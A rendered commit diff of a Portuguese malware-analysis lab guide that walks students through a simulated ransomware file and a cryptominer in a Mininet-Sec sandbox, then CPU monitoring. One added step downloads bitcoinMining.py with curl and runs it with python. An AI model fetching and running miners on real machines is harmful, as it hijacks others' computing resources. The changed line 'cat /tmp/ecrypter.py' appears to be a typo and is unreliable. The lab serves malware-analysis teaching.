

Before and after one commit to hackinsdn/labs, a Markdown page: lab03-analise-malware/README.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/lab03-analise-malware/README.md
+++ b/lab03-analise-malware/README.md
@@ -220,7 +220,7 @@ cat /tmp/hackinsdn.txt.ransomware
 É possível notar que o arquivo hackinsdn.txt.ransomware contém caracteres incompreensíveis, pois o conteúdo foi criptografado utilizando criptografia simétrica. Para restaurar a legibilidade do arquivo, será necessário descriptografá-lo com o código decrypter.py. Em um ataque real, esse processo de descriptografia só poderia ser realizado pelo cibercriminoso, que exigiria um pagamento de resgate para liberar os dados para a vítima. Mas infelizmente, mesmo que efetuando o pagamento de resgate a vitima não tem garantia de que o cibercriminoso irá devolver o arquivo original. Para ter uma ideia de como funciona esse processo de descriptografia, ainda no terminal do outsider1, execute os comandos abaixo:
 
 ```
-cat /tmp/decrypter.py
+cat /tmp/ecrypter.py
 ```
 ![f11](https://github.com/Raquel-Santos/labs/blob/main/lab03-analise-malware/images/f4.PNG?raw=true)
 ```
@@ -286,12 +286,16 @@ Em seguida, no terminal do Mininet-Sec, execute os seguintes comandos:
 
 ```
 cd /tmp
+```
+```
+curl -LO https://raw.githubusercontent.com/hackinsdn/labs/refs/heads/main/lab_analyze_malware/maliciousEncryption/bitcoinMining.py
+```
+```
+python /tmp/bitcoinMining.py
+```
+![f14](https://github.com/Raquel-Santos/labs/blob/main/lab03-analise-malware/images/f14.PNG?raw=true)
 
-curl -LO https://raw.githubusercontent.com/hackinsdn/labs/refs/heads/main/lab_analyze_malware/maliciousEncryption/bitcoinMining.py
-
-mnsecx -I -L -a $(pidof h101) python /tmp/bitcoinMining.py
-
-```
+![f15](https://github.com/Raquel-Santos/labs/blob/main/lab03-analise-malware/images/f15.PNG?raw=true)
 
 ### Atividade 3.3 - Monitoramento do Sistema
 
@@ -306,6 +310,6 @@ Acesse o terminal do Mininet-Sec a partir do Dashboard HackInSDN para verificar
 Em seguida, no terminal do Mininet-Sec, execute os seguintes comandos:
 
 ```
-mininetsec> h101 top
+top
 
 ```
@@ -325,12 +333,6 @@ mininetsec> h101 mpstat -P ALL 1
 
-Este comando permite que você veja estatísticas detalhadas da CPU ao longo do tempo, com os parâmetros -P ALL 1 o uso da CPU será exibido a cada 1 segundo para todos os núcleos.
+Este comando permite que você veja estatísticas detalhadas da CPU em tempo real, com o parâmetro -c você terá acesso estatísticas básicas de CPU e com o --cpu-adv você receberá informações avançadas da CPU.
 
-```
-mininetsec> h101 iotop
-
-```
-
-Este comando mostra a atividade de entrada/saída do disco em tempo real.
 
 ## Atividade 4 - Processo de Mitigação
 O processo de mitigação envolve a implementação de ações e controles para reduzir ou neutralizar os impactos de uma ameaça cibernética identificada, minimizando os danos potenciais e evitando que a vulnerabilidade seja explorada novamente no futuro.
````
Also changed, not shown: other parts of lab03-analise-malware/README.md (+6 -2 lines).
